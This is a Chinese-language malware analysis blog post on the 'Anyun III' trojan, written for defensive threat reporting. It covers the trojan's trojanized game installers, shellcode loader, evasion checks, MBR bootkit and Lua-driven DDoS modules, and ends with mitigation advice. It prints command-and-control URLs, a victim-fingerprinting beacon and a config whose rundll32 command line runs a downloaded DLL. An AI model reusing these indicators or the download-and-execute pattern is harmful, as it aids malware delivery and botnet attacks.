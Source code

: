 ```yaml
---
layout: post
title: 暗云Ⅲ木马分析报告
author: wwh
---
```



![]({{ site.baseurl }}/images/anyun/banner.jpg)

<!--more-->


## 1.&emsp;基本情况 ##

&emsp;&emsp;近期一款名为“ 暗云”的木马在互联网大规模传播，该恶意程序会通过对正常的“赤月传说”、“传奇霸业”等游戏微端进行修改，伪装成正常的游戏通过各大下载站的下载器等多种传播渠道进行海量推广。当用户下载运行了这些非官方的游戏微端之后，恶意程序便会执行潜伏到用户电脑中，它具有较高的隐蔽性和兼容性，并且拥有正常的数字签名，可躲过部分杀毒软件的查杀。暗云木马目前已知的攻击行为包括感染MBR、占用用户带宽进行DDOS等。另外该恶意程序会在每次重新启动时从云端服务器获取更新信息，可随时自定义攻击行为。


## 2.&emsp;感染情况 ##
&emsp;&emsp;据国家互联网应急中心统计，目前累计感染该恶意程序的主机达160万台，其中99%是我国境内主机，江苏省由于网民数量庞大，感染数量在15万台左右，占有较高的比例。同时研究发现暗云木马的控制端在国外，控制IP数目10个左右，该控制网路已经在国内形成了强大的网络僵尸群，不仅用户的个人隐私信息安全会受到影响，并且一旦利用僵尸网络发起攻击会对互联网网络造成严重影响。

## 3.&emsp;样本分析 ##

### 3.1 &emsp;样本概况 ###


&emsp;&emsp;程序对正常的游戏客户端进行修改，表面上看上去与正常的客户端程序没有任何区别，并且拥有正确的数字签名，程序运行后就是正常的游戏客户端。

![]({{ site.baseurl }}/images/anyun/1.png)


### 3.2 &emsp;主程序加载器分析 ###

&emsp;&emsp;该恶意程序运行时首先会加载自身资源文件，该资源文件是正常的图片末尾添加了一段shellcode

![]({{ site.baseurl }}/images/anyun/2.png)

恶意程序首先调用这段shellcode,这段shellcode是一个头部跟压缩过后的dll组装在一起的，头部完成的功能就是解压这个dll，然后内存加载。

![]({{ site.baseurl }}/images/anyun/3.png)

该DLL文件包含了主要的恶意代码，首先它对用户电脑进行检测，满足下列条件才会从服务端下载感染程序安装到本地。

* 1.安装包文件名格式，必须包含两个下划线和一个点，最后一个段是其推广渠道号

![]({{ site.baseurl }}/images/anyun/4.png)

* 2.通过目录下的ini判断是否是第一次运行，只有第一次运行才会下载

![]({{ site.baseurl }}/images/anyun/5.png)

* 3.通过WMI查询磁盘名称，检测虚拟机

![]({{ site.baseurl }}/images/anyun/6.png)

* 4.检测是否是在网吧运行

![]({{ site.baseurl }}/images/anyun/8.png)
![]({{ site.baseurl }}/images/anyun/7.png)

* 5.检测是否存在杀毒软件

![]({{ site.baseurl }}/images/anyun/9.png)

条件判断合格后，将获取到的信息上传到云端，并从云端拉取配置信息：

```
	http://c2tongji.b5156.com:89/stats.php?m=08-00-**-**-**-**&uid=b42be3fd-****-4338-****-d6fd64eb9576&hid=48DC0EC2&channelid=b108&p=9377_hyaz2a8_b108.exe&tick=26C717C1228272B9AC3A9E392CAD0721&pq=0&p3=0
```

该信息主要包括mac，硬盘序列号，用户id、取到号、文件名等。

拉到的配置信息为：

```
	[Update]
	Version=2
	Url=http://update.njmmy.com:8089/config/LDrvSvc.zip
	CmdLine=rundll32.exe LDrvSvc.dll,RundllInstall Dir=%appdata%\LDrvSvc
```

然后下载LDrvSvc.zip，解压后执行CmdLine,通过rundll32执行LDrvSvc.dll。同时将游戏登录界面展示给用户，不影响游戏的正常功能。LDrvSvc.dll文件也带有白签名。后面的工作交给LDrvSvc.dll去执行


### 3.3 &emsp;LDrvSvc模块分析 ###


&emsp;&emsp;LDrvSvc.dll本身是一个驱动人生的一个DLL，默认就会执行安装服务操作，恶意程序借助它自己的这个特性来实现自启动。

![]({{ site.baseurl }}/images/anyun/svc.png)

服务启动时会进入LDrvSvc.dll的ServiceMain接口，在此之前都是白文件原有的流程，直到ServiceMain中加载同目录下的DtlCrashCatch.dll的时候，DtlCrashCatch.dll是被恶意修改过的文件，并添加了自己的数字签名。此时该模块运行在系统的服务权限下，为下面进行MBR感染提供了条件。该dll与主程序加载器使用同一种方法加载恶意shellcode,提取出该内存加载的dll模块，在DLLMAIN中首先创建一个线程，每隔一段时间就去请求一个地址

```
	URL：http://www.2tf1.com/upcfg.db
```


![]({{ site.baseurl }}/images/anyun/10.png)

获取到远端DB文件的数据之后做一个简单的解密，之后判断开头4字节是否为0xA5A5A5A5，如果是的话执行下面部分的shellcode。

![]({{ site.baseurl }}/images/anyun/11.png)

### 3.4 &emsp;upcfgDB 模块分析 ###

首先会判断自己是否运行在SYSTEM权限，由于是通过服务启动的所以会满足条件

![]({{ site.baseurl }}/images/anyun/12.png)

接下来就是感染MBR的操作，[具体细节参见](http://www.freebuf.com/vuls/57868.html)

![]({{ site.baseurl }}/images/anyun/13.png)

BootKit 启动过程跟之前暗云版本没有什么不同，都是由MBR开始通过int 15中断一步步的hook来跟随系统的引导流程进入系统内核执行，该套代码可兼容xp、vista、win7、win8等主流操作系统，包括64位和32位。

直接在内核以TDI的方式访问网络下载shellcode解密后直接在内核中运行。。且木马自带了dns服务器地址用来解析域名。尝试以APC的方式向应用层指定进程插入该dll文件。Shellcode会遍历进程，当发现以下某一进程时，进行插入，成功后不再尝试其它进程。

![]({{ site.baseurl }}/images/anyun/15.png)


### 3.5 &emsp;PayLoad.dll分析 ###
该模块是主要执行功能命令的模块,首先会每隔一段时间请求以下网址：

	www.acsewle.com:8877/ds/kn.html
通过对该域名进行访问可以发现配置信息，并且存在一个db文件的下载链接。

![]({{ site.baseurl }}/images/anyun/16.png)

之后创建傀儡进程svchost.exe，并将内置有脚本解释器的恶意dll注入执行。然后是不断从网上请求下载lua脚本并解析执行：

```
	http://www.acsewle.com:8877/ld/ndn.db
```

![]({{ site.baseurl }}/images/anyun/18.png)

 通过分析，得知ndn.db的文件结构，大致如下：

```
	struct f_db{
      DWORD fileLen; // lua脚本bytecode文件大小
      DWORD runType; // 运行类型
      char fileName[24]; // lua脚本文件名
      char fileData[fileLen]; // lua脚本bytecode内容}
```


根据文件结构，进而可从ndn.db中提取到多个lua脚本的bytecode。

![]({{ site.baseurl }}/images/anyun/19.png)

分析得知，其使用的lua版本为5.3，是自行更改过虚拟机进行编译。使用普通反编译工具反编译后，只能得到部分可读明文，经过分析统计可知道暗云Ⅲ现有发布的功能大致有以下几类,如图所示：

* 1.用户统计，通过访问cnzz和51.la两个站点统计页面，以便统计参与攻击的机器数及次数。

![]({{ site.baseurl }}/images/anyun/20.png)

* 2.DDOS,直接do、while循环，不停地对目标服务发起访问。

![]({{ site.baseurl }}/images/anyun/21.png)

* 3.CC攻击,随机使用UserAgent来对目标网站发起访问

![]({{ site.baseurl }}/images/anyun/22.png)

## 4.&emsp;防范措施 ##

&emsp;&emsp;根据“暗云Ⅲ”木马程序的传播特性，建议用户近期采取积极的安全防范措施：

* 1.不要选择安装捆绑在下载器中的软件，不要运行来源不明或被安全软件报警的程序，不要下载运行游戏外挂、私服登录器等软件。
* 2.定期在不同的存储介质上备份信息系统业务和个人数据。

&emsp;&emsp;针对已经感染的主机，可使用专杀工具进行清除，目前各大杀毒厂商均可对其进行查杀修复处理。

参考链接：

1. [暗云Ⅲ危害——不仅仅是DDoS: http://tav.qq.com/index/newsDetail/276.html](http://tav.qq.com/index/newsDetail/276.html)
